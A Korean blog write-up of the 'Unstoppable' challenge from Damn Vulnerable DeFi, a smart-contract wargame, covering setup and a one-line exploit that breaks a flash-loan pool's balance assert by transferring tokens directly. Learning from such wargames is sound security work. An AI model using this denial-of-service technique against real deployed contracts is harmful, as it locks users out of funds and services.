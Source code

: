 ```yaml
---
title: "DamnVulnerableDefi Unstoppable 풀이"
author: IceBear
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - Unstoppable
---
```


[Damn Vulnerable DeFi]는 DeFi Smart Contract를 대상으로 하는 Wargame 사이트이다.
![Damn Vulnerable DeFi](/assets/images_post/2022-01-25-DamnVulnerableDefi-Unstoppable/damnvulnerabledefi.png)
해당 문제들을 풀어보면서 DeFi Smart Contract에서 발생하는 취약점 유형을 학습할 수 있다.
먼저 Wargame 문제 풀이를 위한 환경설정을 정리하고, 1번 챌린지인 Unstoppable을 풀어보도록 한다. 

## 환경설정

먼저 문제 Repository를 Clone 한다.
~~~
git clone https://github.com/OpenZeppelin/damn-vulnerable-defi.git
~~~

그리고 자바스크립트 패키지 매니저인 yarn을 설치한다.(여기서는 Mac 기준)
~~~
brew install yarn
~~~

그 뒤 yarn을 통해 필요한 패키지들을 설치한다.
~~~
yarn install
~~~

설치가 정상적으로 잘 되면 damn-vulnerable-defi 폴더로 이동하여 npm 명령을 통해 사용가능한 챌린지들을 확인할 수 있다.
~~~
➜  damn-vulnerable-defi ✗ npm run
Lifecycle scripts included in undefined:
  test
    npm run compile && npx mocha --timeout 5000 --exit --recursive test

available via `npm run-script`:
  unstoppable
    npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js
  truster
    npm run compile && npx mocha --timeout 5000 --exit test/truster/truster.challenge.js
  naive-receiver
    npm run compile && npx mocha --timeout 5000 --exit test/naive-receiver/naive-receiver.challenge.js
  side-entrance
    npm run compile && npx mocha --timeout 5000 --exit test/side-entrance/side-entrance.challenge.js
  the-rewarder
    npm run compile && npx mocha --timeout 5000 --exit test/the-rewarder/the-rewarder.challenge.js
  selfie
    npm run compile && npx mocha --timeout 5000 --exit test/selfie/selfie.challenge.js
  compromised
    npm run compile && npx mocha --timeout 5000 --exit test/compromised/compromised.challenge.js
  puppet
    npm run compile && npx mocha --timeout 5000 --exit test/puppet/puppet.challenge.js
  compile
    npx buidler compile
~~~

Wargame은 [OpenZeppelin Test Helper]를 통해 로컬에서 테스트할 수 있다.
각 문제에 대한 Exploit 코드는 test 폴더 밑 해당 문제 폴더에 존재하는 challenge.js 파일내에 추가하면 된다.
Unstoppable 문제의 js 파일을 보면 다음과 같이 친절하게 Exploit을 작성할 부분을 정의해두었다.
~~~
...
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
});
...
~~~
그리고 npm 명령을 통해 Exploit을 실행할 수 있다.
~~~
npm run unstoppable
~~~

## Unstoppable 풀이

Contract 파일인 UnstoppableLender.sol 내 flashloan 함수는 다음과 같다.
~~~
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);
        
  damnValuableToken.transfer(msg.sender, borrowAmount);
        
  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
~~~

코드 중간에 assert로 poolBalance와 balanceBefore가 같음을 확인한다.
balanceBefore는 바로 위에서 해당 주소의 balance를 가지고 옴을 알 수 있다.
그에 반해 poolBalance는 전역 변수로 depositTokens 함수를 통해서만 추가될 수 있다.
~~~
...
uint256 public poolBalance;
...
function depositTokens(uint256 amount) external nonReentrant {
  require(amount > 0, "Must deposit at least one token");
  // Transfer token from sender. Sender must have first approved them.
  damnValuableToken.transferFrom(msg.sender, address(this), amount);
  poolBalance = poolBalance + amount;
}
...
~~~

하지만 ERC20 표준에 따라 transfer 함수를 통해 해당 contract에 token을 전송할 수 있다.
그럴 경우 balanceBefore 값이 증가하게 되고, 따라서 poolBalance 값과 balanceBefore 값이 불일치하게 된다.
이를 위한 js 파일내 exploit 코드는 다음과 같다.
~~~
...
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    await this.token.transfer(this.pool.address, ether('1'), {from: attacker });
    });
...
~~~

이를 npm으로 실행하면 다음 결과를 얻는다.
~~~
➜  damn-vulnerable-defi ✗ npm run unstoppable

> unstoppable
> npm run compile && npx mocha --timeout 5000 --exit test/unstoppable/unstoppable.challenge.js


> compile
> npx buidler compile

All contracts have already been compiled, skipping compilation.


  [Challenge] Unstoppable
    ✓ Exploit (50ms)


  1 passing (757ms)
~~~

## 마치며

DeFi에서 사용하는 Pool을 관리하는데 있어 Balance가 다양한 방식으로 조절될 수 있다.
특히 여러 체인을 연계하는 서비스의 경우 자체적으로 각 Token에 대한 Balance를 가지고 관리하는 경우 이러한 문제가 발생할 수 있다.


[Damn Vulnerable DeFi]: https://www.damnvulnerabledefi.xyz 
[OpenZeppelin Test Helper]: https://docs.openzeppelin.com/test-helpers/0.5/
